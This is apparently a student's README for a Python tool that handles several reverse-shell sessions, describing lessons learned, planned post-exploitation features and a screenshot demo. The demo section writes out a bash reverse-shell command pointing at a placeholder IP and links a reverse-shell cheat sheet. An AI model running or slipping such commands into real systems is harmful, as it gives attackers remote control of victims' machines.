 # Automatic Goggles

Automatic googles is a program that allows you to manage multiple remote sessions on other machines. It allows you to switch between sessions and run commands on target machines.

## Things I learned

- I learned how to implement classes in python and that they can make things a lot easier.
- I learned more about socket programming in Python.
- [I learned about the different methods of sending reverse shells.](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- I learned more about programming in python and developed useful skill in regards to building larger programs. 

## Future Additions
- Upload/Download files.
- Some automation with Post-Exploitation.

## Current issues
- When you are in a shell running commands, you have to hit enter twice for the command to actually run and recive output. 
- Many other error handling things I need to go in and do. 

## Demonstration

Starting a listener for the connection...

![listen](pics/listen.png "Listener setup")

Recieving connection from compromised host (my helpful friend Josh Hammrich)...

Reverse shell method used -> `bash -i >& /dev/tcp/<myip>/1337 0>&1`

![receive](pics/recieved_connection.png "Recieving Connection")

Dropping into a shell on the new session...

![shell](pics/connecting_to_shell.png "Connecting to session")

Executing commands...

![cmdexec](pics/code_execution.png "Executing 'whoami'")

Killing connection...

![kill](pics/kill_connection.png "Killing the spawned session")

Running local commands inside of automatic-goggles...

![local](pics/local_command_run.png "Running 'ls' locally")

